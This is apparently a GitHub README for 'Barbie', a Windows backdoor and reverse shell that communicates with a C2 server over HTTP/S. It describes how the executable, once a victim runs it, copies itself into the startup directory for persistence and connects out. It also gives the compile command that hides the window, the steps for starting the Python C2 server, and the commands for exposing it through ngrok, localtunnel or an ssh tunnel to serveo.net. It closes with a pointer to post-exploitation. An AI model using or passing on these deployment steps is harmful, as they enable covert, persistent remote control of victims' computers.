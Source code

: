 # Barbie
A simple, persisent windows toy backdoor/reverse-shell using HTTP/S to communicate with the C2 server.

Once the victim starts the executable it locates itself on default startup programs directory, then it tries to establish a connection.
## Setup
Edit the line 6 with your own reachable domain or public IP address.
#### Compile
`gcc barbie.c -o startupsrvc -w -mwindows`
#### Setting up your machine as temporary C2 server
Start your server with `python3 server.py`, this will run your server locally on the port 5001, feel free to change that.<br>
For using a self-signed TLS certificate add `ssl_context="adhoc"` in the last line of the code, this may cause problems if you use the below mentioned tunneling services.

To avoid different code pages i used utf-8 to decode the raw data sent by the client.<br>
See [this link](https://docs.python.org/3/library/codecs.html#standard-encodings) to see the right encoding format for your country.

Now you have to expose your localhost on the internet, there are various methods to do this:
   * Setting up port forwarding by opening the choosen port for your pc on your modem router (unless you're under a Carrier-grade NAT)
   * Using a reverse proxy to start an HTTPS tunnel:
     * [Ngrok](https://ngrok.com): `ngrok http 5001`
     * [Localtunnel](https://theboroer.github.io/localtunnel-www/): `lt --port 5001 --subdomain <choose a name>`
     * [Serveo](https://serveo.net) through SSH: `ssh -R <choose a name>.serveo.net:80:localhost:5001 serveo.net`

These services will automatically generate TLS certificates.
### Static subdomains for tunneling services
Obviously you want your subdomain to last longer.

* For ngrok see [this guide](https://ngrok.com/blog-post/free-static-domains-ngrok-users)
* For serveo and localtunnel, just choose a name that anyone wouldn't guess
  

if you're not using a tunneling service you could try [duckdns](https://www.duckdns.org/)
### Post exploitation
[Here](https://www.google.com/search?q=windows+post+exploitation)
